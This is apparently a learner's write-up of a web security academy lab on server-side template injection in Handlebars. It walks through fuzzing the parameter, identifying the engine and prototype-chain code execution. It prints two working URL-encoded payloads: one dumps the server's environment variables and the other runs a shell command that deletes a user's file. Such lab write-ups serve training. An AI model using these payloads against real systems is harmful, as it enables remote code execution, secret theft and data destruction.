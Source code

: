 # [Server-side template injection] Lab: Server-side template injection in an unknown language with a documented exploit (1)

---

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled.png)

the query string in the URL is being reflected in the 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%201.png)

Let fuzz the query string: 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%202.png)

the result 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%203.png)

so from this error we can see that the template engine is handle bars

lets look for any exploits for handlebars: 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%204.png)

trying POC: 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%205.png)

was able to get this : 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%206.png)

closing the existing tag with }}

now in error I seen something mentioning the context lets look more into that : 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%207.png)

result: 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%208.png)

using this resource: 

https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%209.png)

the reason for this payload compared to other ones was that they were to long and the server would give 500. 

but that payload above worked after I URL encoded it:

 

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%2010.png)

URL: [https://0ac300eb04d3bc6a8195c02800800023.web-security-academy.net/?message=](https://0ac300eb04d3bc6a8195c02800800023.web-security-academy.net/?message=){[https://0ac300eb04d3bc6a8195c02800800023.web-security-academy.net/?message={{%23with "s" as |string|}}
  {{%23with "e"}}
    {{%23with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{%23with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env)%3B"}}
        {{this.pop}}
        {{%23each conslist}}
          {{%23with (string.sub.apply 0 codelist)}}
            {{this}}
          {{%2Fwith}}
        {{%2Feach}}
      {{%2Fwith}}
    {{%2Fwith}}
  {{%2Fwith}}
{{%2Fwith}}](https://0ac300eb04d3bc6a8195c02800800023.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%70%72%6f%63%65%73%73%2e%65%6e%76%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d)

now that I was able to expose the environment variables I can try exploit them: 

- `"NODE_PATH": "/opt/node-v19.8.1-linux-x64/lib/node_modules/"`
- `"PATH": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"`
- `"LOGNAME": "carlos"`
- `"USER": "carlos"`
- `"HOME": "/home/carlos"`
- `"SHELL": "/bin/bash"`
- `"TERM": "unknown"`
- `"SUDO_COMMAND": "/opt/node-v19.8.1-linux-x64/lib/node_modules/../../bin/node -e var handlebars = require('handlebars')\nvar source = require('fs').readFileSync(process.stdin.fd, 'utf-8')\nvar template = handlebars.compile(source)\nvar data = {}\nconsole.log(template(data))"`
- `"SUDO_USER": "academy"`
- `"SUDO_UID": "10000"`
- `"SUDO_GID": "10000"`

now that we can also see how the payload works that it is running javascript we can add our own command in :

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%2011.png)

URL: [https://0ac300eb04d3bc6a8195c02800800023.web-security-academy.net/?message=wrtz{{%23with "s" as |string|}}
    {{%23with "e"}}
        {{%23with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{%23with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm %2Fhome%2Fcarlos%2Fmorale.txt')%3B"}}
                {{this.pop}}
                {{%23each conslist}}
                    {{%23with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{%2Fwith}}
                {{%2Feach}}
            {{%2Fwith}}
        {{%2Fwith}}
    {{%2Fwith}}
{{%2Fwith}}](https://0ac300eb04d3bc6a8195c02800800023.web-security-academy.net/?message=%77%72%74%7a%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d)

![Untitled](%5BServer-side%20template%20injection%5D%20Lab%20Server-side%20t%20922e6f4640ba4d52b836a5de74a105bb/Untitled%2012.png)